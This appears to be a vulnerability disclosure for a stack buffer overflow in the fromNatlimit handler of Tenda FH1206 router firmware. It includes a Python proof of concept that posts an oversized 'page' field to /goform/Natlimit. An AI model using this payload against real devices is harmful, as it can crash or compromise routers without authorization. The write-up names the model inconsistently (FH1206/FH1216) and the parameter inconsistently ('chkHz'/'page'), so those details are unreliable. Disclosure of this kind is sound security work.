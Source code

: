 # fromNatlimit

## Overview

- Firmware download website: https://www.tendacn.com/hk/download/detail-2344.html

## Affected version

FH1206 V1.2.0.8(8155)_EN

## Vulnerability details

There is a stack buffer overflow vulnerability in Tenda FH1216 V1.2.0.8(8155)_EN, located in the **fromNatlimit** function. The function receives the `chkHz` parameter from a POST request. `   sprintf(v4, "lan_controllist.asp?page=%s", v2);` The statement will cause a buffer overflow. The `page` value provided by the user may exceed the capacity of the `v4` array, thereby triggering this security vulnerability.

![image](https://github.com/user-attachments/assets/7a84529f-7a8a-44e0-bf6e-fc70203d573a)


## POC

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/Natlimit"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image](https://github.com/user-attachments/assets/e2e5f88e-99fe-4de0-8113-814f628d02bd)
